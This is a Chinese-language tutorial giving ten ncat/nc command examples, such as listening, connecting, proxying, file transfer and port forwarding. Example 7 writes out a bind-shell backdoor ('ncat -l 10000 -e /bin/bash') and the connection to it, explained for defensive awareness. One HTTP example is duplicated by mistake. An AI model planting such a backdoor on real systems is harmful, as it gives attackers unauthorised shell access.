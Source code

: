 ##例子： 1) 监听入站连接
通过 -l 选项，ncat 可以进入监听模式，使我们可以在指定端口监听入站连接。 完整的命令是这样的：
```
$ ncat -l port_number
```
比如，
```
$ ncat -l 8080
```
服务器就会开始在 8080 端口监听入站连接。

## 例子： 2) 连接远程系统
使用下面命令可以用 nc 来连接远程系统，
```
$ ncat IP_address port_number
```
让我们来看个例子，
```
$ ncat 192.168.1.100 80
```
这会创建一个连接，连接到 IP 为 192.168.1.100 的服务器上的 80 端口，然后我们就可以向服务器发送指令了。 比如我们可以输入下面内容来获取完整的网页内容
```
GET / HTTP/1.1
```
或者获取页面名称，
```
GET / HTTP/1.1
```
或者我们可以通过以下方式获得操作系统指纹标识，
```
HEAD / HTTP/1.1
```
这会告诉我们使用的是什么软件来运行这个 web 服务器的。

## 例子： 3) 连接 UDP 端口
默认情况下，nc 创建连接时只会连接 TCP 端口。 不过我们可以使用 -u 选项来连接到 UDP 端口，
```
$ ncat -l -u 1234
```
现在我们的系统会开始监听 UDP 的 1234 端口，我们可以使用下面的 netstat 命令来验证这一点，
```
$ netstat -tunlp | grep 1234
udp           0          0 0.0.0.0:1234                 0.0.0.0:*               17341/nc
udp6          0          0 :::1234                      :::*                    17341/nc
```
假设我们想发送或者说测试某个远程主机 UDP 端口的连通性，我们可以使用下面命令，
```
$ ncat -v -u {host-ip} {udp-port}
```
比如：
```
[root@localhost ~]# ncat -v -u 192.168.105.150 53
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53。
```
## 例子： 4) 将 nc 作为聊天工具
nc 也可以作为聊天工具来用，我们可以配置服务器监听某个端口，然后从远程主机上连接到服务器的这个端口，就可以开始发送消息了。 在服务器这端运行：
```
$ ncat -l 8080
```
在远程客户端主机上运行：
```
$ ncat 192.168.1.100 8080
```
之后开始发送消息，这些消息会在服务器终端上显示出来。

## 例子： 5) 将 nc 作为代理
nc 也可以用来做代理。比如下面这个例子，
```
$ ncat -l 8080 | ncat 192.168.1.200 80
```
所有发往我们服务器 8080 端口的连接都会自动转发到 192.168.1.200 上的 80 端口。 不过由于我们使用了管道，数据只能被单向传输。 要同时能够接受返回的数据，我们需要创建一个双向管道。 使用下面命令可以做到这点:
```
$ mkfifo 2way
$ ncat -l 8080 0<2way | ncat 192.168.1.200 80 1>2way
```
现在你可以通过 nc 代理来收发数据了。

## 例子： 6) 使用 nc 拷贝文件
nc 还能用来在系统间拷贝文件，虽然这么做并不推荐，因为绝大多数系统默认都安装了 ssh/scp。 不过如果你恰好遇见个没有 ssh/scp 的系统的话， 你可以用 nc 来作最后的努力。

在要接受数据的机器上启动 nc 并让它进入监听模式：
```
$ ncat -l  8080 > file.txt
```
现在去要被拷贝数据的机器上运行下面命令：
```
$ ncat 192.168.1.100 8080 --send-only < data.txt
```
这里，data.txt 是要发送的文件。 -–send-only 选项会在文件拷贝完后立即关闭连接。 如果不加该选项， 我们需要手工按下 ctrl+c 来关闭连接。

我们也可以用这种方法拷贝整个磁盘分区，不过请一定要小心。

## 例子： 7) 通过 nc 创建后门
nc 命令还可以用来在系统中创建后门，并且这种技术也确实被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。 创建后门的命令为：
```
$ ncat -l 10000 -e /bin/bash
```
-e 标志将一个 bash 与端口 10000 相连。现在客户端只要连接到服务器上的 10000 端口就能通过 bash 获取我们系统的完整访问权限：
```
$ ncat 192.168.1.100 10000
```
## 例子： 8) 通过 nc 进行端口转发
我们通过选项 -c 来用 nc 进行端口转发，实现端口转发的语法为：
```
$ ncat -u -l  80 -c  'ncat -u -l 8080'
```
这样，所有连接到 80 端口的连接都会转发到 8080 端口。

## 例子： 9) 设置连接超时
nc 的监听模式会一直运行，直到手工终止。 不过我们可以通过选项 -w 设置超时时间:
```
$ ncat -w 10 192.168.1.100 8080
```
这回导致连接 10 秒后终止，不过这个选项只能用于客户端而不是服务端。

## 例子： 10) 使用 -k 选项强制 nc 待命
当客户端从服务端断开连接后，过一段时间服务端也会停止监听。 但通过选项 -k 我们可以强制服务器保持连接并继续监听端口。 命令如下：
```
$ ncat -l -k 8080
```
现在即使来自客户端的连接断了也依然会处于待命状态。